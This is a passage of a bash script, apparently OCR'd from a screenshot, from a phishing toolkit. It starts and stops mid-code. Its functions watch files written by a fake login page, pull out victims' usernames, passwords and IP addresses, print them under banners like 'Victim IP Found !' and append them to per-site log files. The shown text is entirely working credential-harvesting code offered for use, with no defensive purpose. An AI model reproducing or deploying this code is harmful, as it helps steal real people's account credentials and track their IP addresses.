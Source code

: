 printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m ip.txt\e[0m\n" $server

printf "\n"

cat .htr/www/ip.txt >> ip.txt

}

grab_creds() {

account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2)

IFS=$'\n'

password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2)

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password

cat .htr/www/usernames.txt >> logs/$website.log

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m logs/%s.log\e[0m\n" $website

printf "\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Next Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"

}

datafound() {

printf "\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"

printf "\n"

while [ true ]; do

if [[ -e ".htr/www/ip.txt" ]]; then

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP Found !\e[0m\n"

grab_ip

rm -rf .htr/www/ip.txt

fi
